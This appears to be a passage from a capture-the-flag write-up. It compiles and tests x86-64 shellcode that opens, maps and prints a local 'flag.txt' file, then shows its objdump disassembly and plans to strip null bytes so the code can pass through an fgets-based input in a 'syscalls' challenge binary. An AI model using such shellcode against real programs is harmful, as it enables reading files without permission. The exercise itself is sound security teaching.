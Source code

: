 Compile:
```bash
$ nasm -f elf64 shellcode.asm -o shellcode.o
$ ld shellcode.o -o shellcode
```

Test:
```bash
$ ./shellcode         
ehlo
zsh: segmentation fault  ./shellcode
```

Looking good! However, the crafted shellcode contains lots of null bytes. As the shellcode will be read from stdin by the `syscalls` binary using `fgets` null bytes cannot be used and must be avoided.

```bash
$ objdump -d shellcode.o  

shellcode.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   48 31 d2                xor    %rdx,%rdx
   3:   48 be 66 6c 61 67 2e    movabs $0x7478742e67616c66,%rsi
   a:   74 78 74 
   d:   52                      push   %rdx
   e:   56                      push   %rsi
   f:   48 c7 c7 9c ff ff ff    mov    $0xffffffffffffff9c,%rdi
  16:   48 8d 34 24             lea    (%rsp),%rsi
  1a:   48 31 d2                xor    %rdx,%rdx
  1d:   b8 01 01 00 00          mov    $0x101,%eax
  22:   0f 05                   syscall
  24:   50                      push   %rax
  25:   b8 09 00 00 00          mov    $0x9,%eax
  2a:   48 31 ff                xor    %rdi,%rdi
  2d:   be 80 00 00 00          mov    $0x80,%esi
  32:   ba 01 00 00 00          mov    $0x1,%edx
  37:   41 ba 02 00 00 00       mov    $0x2,%r10d
  3d:   4c 8b 04 24             mov    (%rsp),%r8
  41:   41 b9 00 00 00 00       mov    $0x0,%r9d
  47:   0f 05                   syscall
  49:   68 80 00 00 00          push   $0x80
  4e:   50                      push   %rax
  4f:   bf 01 00 00 00          mov    $0x1,%edi
  54:   48 8d 34 24             lea    (%rsp),%rsi
  58:   ba 01 00 00 00          mov    $0x1,%edx
  5d:   b8 14 00 00 00          mov    $0x14,%eax
  62:   0f 05                   syscall
```
